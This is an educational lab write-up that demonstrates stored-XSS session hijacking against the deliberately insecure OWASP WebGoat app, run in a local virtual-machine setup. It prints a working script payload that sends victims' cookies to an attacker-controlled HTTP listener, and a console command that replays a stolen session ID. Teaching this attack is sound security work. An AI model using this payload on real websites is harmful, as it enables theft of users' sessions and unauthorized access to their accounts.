

# Session Hijack using XSS

## Introduction
A **Session Hijack attack** exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

**Session Hijacking** involves compromising this session cookie, either by stealing or predicting a valid value, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
**Cross-Site Scripting (XSS) attacks** are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* **Reflected XSS Attacks**: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* **Stored XSS Attacks**: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In the following experiment, we will use a **stored XSS attack** to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
The first phase involves ensuring network connectivity between the attacker, the web server, and the victim machine. This step is critical because successful communication is required for the attack to proceed. The ping command is used to verify that each machine can reach the others over the network.

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
Running WebGoat involves setting up a deliberately insecure web application on the Ubuntu server. The command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
pulls the WebGoat Docker image and runs it, exposing it on port 8080. This setup creates a controlled environment where security vulnerabilities, such as XSS, can be safely explored and demonstrated.

### Phase 3: Attacker Account
To begin the attack, the attacker needs an account on the WebGoat application. Using Kali Linux, the attacker opens a browser and navigates to:
```url
http://192.168.28.132:8080/WebGoat/
```
 

The attacker registers a new account by clicking the register button and providing the necessary details. This account will be used to identify and exploit vulnerabilities in the web application.
 

### Phase 4: Identify XSS Vulnerability
The next step is to identify a vulnerability in the WebGoat application. By navigating to the "Cross Site Scripting (stored)" section under "Injection," the attacker accesses a simulated forum where users can post comments.


To test for vulnerabilities, the attacker posts a comment with HTML tags: 
```html
<strong> Hello World </strong>
```


If the comment is displayed with formatting, it indicates that the application does not properly sanitize input, confirming the presence of an XSS vulnerability.

### Phase 5: Payload Injection
Once the XSS vulnerability is identified, the attacker injects a malicious payload to steal session cookies. The payload:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```


is crafted to send the session cookie to the attacker's server. 

This script, when executed by the victim's browser, will fetch all the cookies and send them to the specified URL (the attacker's server).

### Phase 6: Attacker Controlled Server
To receive the stolen cookies, the attacker sets up an HTTP server on Kali Linux. Using the command 
```bash
python3 -m http.server --bind 192.168.28.133 9000
```


the attacker creates a simple HTTPS server listening on port 9000. This server will capture any incoming HTTP requests, including those generated by the malicious payload.

### Phase 7: Target Access Comment
An unsuspecting user on the Windows VM visits the WebGoat application and views the forum with the injected comment. When the user's browser renders the comment, the embedded script executes, sending the session cookie to the attacker's server. The attacker observes the incoming request on their HTTP server, capturing the session cookie.



### Phase 8: Use Session Cookie
With the session cookie in hand, the attacker can impersonate the victim. The attacker opens the browser's debugger console (e.g., in Firefox) and uses the command 
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
to set their session cookie to the stolen value. This action allows the attacker to assume the victim's session, gaining unauthorized access to the web application with the same privileges as the victim.


## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References and Inspirations
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack